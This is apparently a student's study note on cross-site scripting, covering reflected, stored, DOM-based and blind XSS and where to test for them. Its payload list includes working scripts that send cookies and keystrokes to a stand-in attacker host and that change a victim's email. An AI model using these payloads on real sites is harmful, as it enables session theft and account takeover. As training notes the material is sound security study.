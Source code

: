 aIn short: injection of malicious javascript

### XSS Payloads

Payload: the javascript code

Examples: 

Proof of concept:
`<script>alert('XSS');</script>`: used to check if XSS is possible

Session Stealing:
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

Key Logger:
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

Business Logic:
`<script>user.changeEmail('attacker@hacker.thm');</script>`: call a function used in JS, here change email adress

### Reflected XSS

when user-supplied data in a HTTP request is included in the webpage source without any validation

Exemple: 

![[Pasted image 20250407183010.png]]ù

Impact: attacker can send links, embed them into an iframe on another website containing a JS payload to potential victims, getting them to execute code in their browser, revealing session or customer information

To test:

- Parameters in the URL Query String 
- URL File Path
- HTTP Headers (but unlikely)

### Stored XSS

Example:

![[Pasted image 20250407183330.png]]

Tests to make:
- Comments on a blog
- Personal User profile information
- Website Listings

Good idea: test directly the API without making requests from the browser, allows to skip form validation

### [[CYBER/DOM]] Based XSS

Exploits JS directly in the browser, without pages loaded or data submitted to backend

Example Scenario:
=> website's JS checks for window.location.hash parameter and writes that onto the page into the currently being viewed section
=> contents not checked for malicious code, can inject code there
=> allows to create malicious links to redirect them elsewhere

Test: Need to check for variables that attacker can have control of like `window.location.x`, then needs to see how they are handled and whether values are written on the DOM or passed to unsafe JS methods such as eval().

### Blind XSS

Similar to [[#Stored XSS]], as payload is stored for someone else to see, but here you can't see the payload working or to test it against yourself

Example: chat with customer support where messages are not validated that are turned into support tickets

To test:
- make sure there is a callback (ex: HTTP response)
- use XSS Hunter Express: captures cookies, URLs, page contents, ...


## Examples








